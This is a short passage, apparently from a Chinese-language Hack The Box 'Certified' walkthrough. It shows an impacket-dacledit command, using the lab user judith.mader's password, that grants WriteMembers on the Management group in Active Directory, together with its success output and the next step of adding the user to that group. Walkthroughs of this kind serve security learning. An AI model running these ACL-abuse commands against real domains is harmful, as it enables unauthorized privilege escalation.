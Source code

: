 SVC可以完全控制CA\_OPERATOR

![](./images/image-50.png)

![](./images/image-51.png)

## User

修改 **`Management`** 组的 ACL，授予 **`judith.mader`** 用户 **`WriteMembers`** 权限，使其能够管理该组的成员

```
┌──(root㉿kali)-[~kali/Certified]
└─# impacket-dacledit  -action 'write' -rights 'WriteMembers' -target-dn "CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB" -principal "judith.mader" "certified.htb/judith.mader:judith09"

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20241206-205722.bak
[*] DACL modified successfully!
                                     
```

把Judith自己加入到Management组里面
